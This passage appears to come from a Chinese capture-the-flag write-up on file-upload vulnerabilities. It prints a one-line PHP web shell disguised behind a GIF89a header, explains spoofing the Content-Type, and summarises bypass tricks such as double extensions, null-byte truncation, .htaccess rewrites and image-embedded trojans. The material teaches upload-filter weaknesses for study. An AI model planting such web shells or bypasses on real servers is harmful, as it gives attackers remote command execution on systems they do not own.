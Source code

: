 ```
GIF89a
<?php @eval($_POST['cmd']); ?>
```

![3.png](https://s2.loli.net/2025/08/28/D8A9HhBvE5bUwjJ.png)

上传时再修改一下 Content-Type，使其与文件头对应的 MIME 类型保持一致。

![4.png](https://s2.loli.net/2025/08/28/muI4sNWdhLBEZFc.png)

上传成功！

![7.png](https://s2.loli.net/2025/08/28/DwGxEn2TH5NVyWr.png)

这道题还能用图片马来绕过，原理其实和伪造文件头类似，可以了解下。

> 图片马：在正常的图片文件里插入一句话木马代码

# 总结

文件上传的绕过方式一般有以下几种：
1. 前端绕过。如果是前端 JS 校验或 HTML 标签限制，通过禁用 JS、删除 HTML 事件、抓包改包等方式可以轻松绕过。
2. 扩展名绕过。常见的绕过方式有双扩展名、大小写绕过、00 截断（仅旧版本 PHP）、特殊后缀（依赖解析器）等方式。
3. MIME 类型绕过。服务器只检查 Content-Type，直接抓包改包即可。
4. 文件头检查绕过。有些题会用 finfo / getimagesize 检查文件头是否是图片，可以通过**伪造文件头**、**图片马**绕过。
5. .htaccess 绕过。通过 .htaccess 修改解析规则，让原本不能执行的文件变成可执行脚本。

口诀

> 前端假，扩展乱，MIME 改，头部串；
> 黑名单，大小写，00 截断走后端；
> 路径穿，条件竞，解压包里藏木马。
